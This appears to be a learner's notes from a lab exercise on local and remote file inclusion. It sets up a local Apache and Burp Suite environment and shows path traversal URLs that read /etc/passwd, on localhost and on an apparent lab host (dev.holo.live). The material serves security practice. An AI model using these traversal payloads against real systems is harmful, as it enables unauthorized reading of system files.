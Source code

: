 This just to practice so that we can get use to the file structure and all the stuff.

We have to change the port from by-default 80 to 8081 as our Burp Suite runs on port 8080
```
nano /etc/apache2/ports.conf
```
![[Pasted image 20231005210248.png]]


We have to either download the files in the /www/html folder or have to move there.
```
http://localhost:8080/index.php
```
![[Pasted image 20231005211852.png]]
![[Pasted image 20231005211907.png]]


Let's now understand what's going on and Practice some attacks ?__?

We have two attacks mentioned in the above photo:
LFI : local file inclusion

So what is LFI ??
Remote File Inclusion (RFI): The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is disabled by default (allow_url_include).
Local File Inclusion (LFI): The sever loads a local file.
https://book.hacktricks.xyz/pentesting-web/file-inclusion
http://localhost:8080/lfi.php?file=catpics.jpg../../../../../../../../etc/passwd
We have seen something like this earlier when i open the link in a new tab for the development site

Practice Time !_!
```
http://localhost:8080/lfi.php?file=catpics.jpg
```
![[Pasted image 20240204115344.png]]
To exploit this vulnerability we need to utilize a technique called directory bursting aka file path traversal.


```
http://localhost:8080/lfi.php?file=../../../../etc/passwd
```
![[Pasted image 20240204120201.png]]


So you u recall it correctly 
http://dev.holo.live/img.php?file=images/fubuki.jpg
![[Pasted image 20231007174112.png]]
Let's see if it's vulnerable or not
Yup so my intuition was righttttttttttttttttt
So let's run the directory bursting and see if we could catch something juicy


Let's test the 1st vulnerability which is the LFI in that will talk about directory traversing
```
http://localhost:8080/lfi.php?file=catpics.jpg../../../../../../../../etc/passwd
```
i have tried with 4 and than 8 and it worked
![[Pasted image 20231005235752.png]]
